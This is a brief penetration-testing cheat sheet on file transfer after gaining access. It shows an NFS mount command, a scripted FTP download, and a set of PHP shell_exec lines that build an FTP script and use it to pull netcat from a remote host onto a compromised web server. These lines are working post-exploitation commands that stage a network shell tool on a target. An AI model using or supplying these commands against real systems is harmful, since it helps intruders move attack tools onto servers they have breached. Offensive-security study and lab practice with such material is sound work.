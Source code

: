 File Transfer
=============

### NFS

# You can remotely mount NFS volumes
mount -t nfs xx.xx.xx.xx:/ /tmp/a

### Linux FTP
#!/bin/sh

ftp -n IP <<END_SCRIPT
quote USER user
quote PASS password
binary
GET file.py
quit
END_SCRIPT
exit 0


# Can also be done over php:
<?php echo shell_exec("echo open 192.168.42.102 21>/usr/local/databases/ftp.txt");?>
<?php echo shell_exec("echo user user password>> /usr/local/databases/ftp.txt");?>
<?php echo shell_exec("echo binary>> /usr/local/databases/ftp.txt");?>
<?php echo shell_exec("echo get netcat /usr/local/databases/netcat>>/usr/local/databases/ftp.txt");?>
<?php echo shell_exec("echo bye>> /usr/local/databases/ftp.txt");?>

<?php echo shell_exec("ftp -n < /usr/local/databases/ftp.txt");?>



